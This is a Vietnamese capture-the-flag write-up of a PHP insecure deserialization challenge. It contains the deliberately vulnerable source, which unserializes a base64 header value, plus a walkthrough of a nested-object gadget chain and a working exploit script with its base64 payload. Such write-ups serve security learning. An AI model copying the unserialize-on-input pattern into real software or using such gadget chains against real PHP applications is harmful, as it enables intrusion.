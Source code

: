 # Insecure deserialization

## Source

```
<?php
$printflag = false;

class X {
    function __construct($cleanup) {
        if ($cleanup === "flag") {
            die("NO!\n");
        }
        $this->cleanup = $cleanup;
    }

    function __toString() {
        return $this->cleanup;
    }

    function __destruct() {
        global $printflag;
        if ($this->cleanup !== "flag" && $this->cleanup !== "noflag") {
            die("No!\n");
        }
        include $this->cleanup . ".php";
        if ($printflag) {
            echo $FLAG . "\n";
        }
    }
}

class Y {
    function __wakeup() {
        echo $this->secret . "\n";
    }

    function __toString() {
        global $printflag;
        $printflag = true;
        return (new X($this->secret))->cleanup;
    }
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}
echo "ecruos? ym dnif uoy naC\n";
if (isset($_SERVER['HTTP_X_PAYLOAD'])) {
    unserialize(base64_decode($_SERVER['HTTP_X_PAYLOAD']));
}

?>
```

## Solution

Nhìn vào source code ta có thể thấy để lấy được flag :
- Cần truyền vào tham số cleanup với giá trị là flag , tuy nhiên nó sẽ bị hàm **__consturct** chặn lại và in ra 'NO' bởi hàm die().
- Trong trường hợp vượt qua được hàm **__construct** phía trên ta cần có printflag=true để có thể in ra flag và để gán lại giá trị true cho biến này ta cần gọi đến hàm **__toString** trong hàm Y.

Để thỏa mãn tất cả ý tưởng sẽ là:
- Gọi hàm **__toString()** trong func Y, để gọi được hàm này ta cần khởi tạo payload với hai func Y lồng nhau.
```
$exploit = new Y(new Y('flag'));
// O:1:"Y":1:{s:6:"secret";O:1:"Y":1:{s:6:"secret";s:4:"flag";}}  
```
Ở đây ta sẽ giả sử truyền vào func Y biến 'flag' , func Y đầu tiên sẽ gọi đến hàm **__weakup** , sau đó func Y lồng vào tiếp theo sẽ gọi đến hàm **__toString()** để gán $printflag=true .

- Việc tiếp theo sẽ là lồng vào func X với tham số 'flag' được truyền vào.
```
$exploit = new Y(new Y(new X('flag')));
// O:1:"Y":1:{s:6:"secret";O:1:"Y":1:{s:6:"secret";O:1:"X":1:{s:7:"cleanup";s:4:"flag";}}}
```
Việc lồng ghép này sẽ khiến hàm X gặp lỗi và gọi đến **__destruct()** mà bỏ qua hàm **__construct()** , điều này dẫn đến việc hai lệnh if được thực hiện và in ra đông thời 'No!' và flag.

Exploit.php

```
<?php
class X{
	function __construct($cleanup){
    	$this->cleanup = $cleanup;
        }
}

class Y{
	function __construct($secret){
    	$this->secret = $secret;
    }
}
$exploit = new Y(new Y (new X('flag')));

echo base64_encode(serialize($exploit));
?>
// TzoxOiJZIjoxOntzOjY6InNlY3JldCI7TzoxOiJZIjoxOntzOjY6InNlY3JldCI7TzoxOiJYIjoxOntzOjc6ImNsZWFudXAiO3M6NDoiZmxhZyI7fX19

```

Cuối cùng ta sẽ gửi lên header X_PAYLOAD bao gồm mã base64 exploit phía trên , có nhiều cách để thực hiện công việc này ở đây mk dùng curl .

Result:

![img](img/img7.png)

Nhìn vào kết quả ta có thể thấy 'flag' in ra chứng tỏ **__weakup** được gọi , 'No!' và flag được in ra chứng tỏ hàm **__destruct** được thực thi ...

  


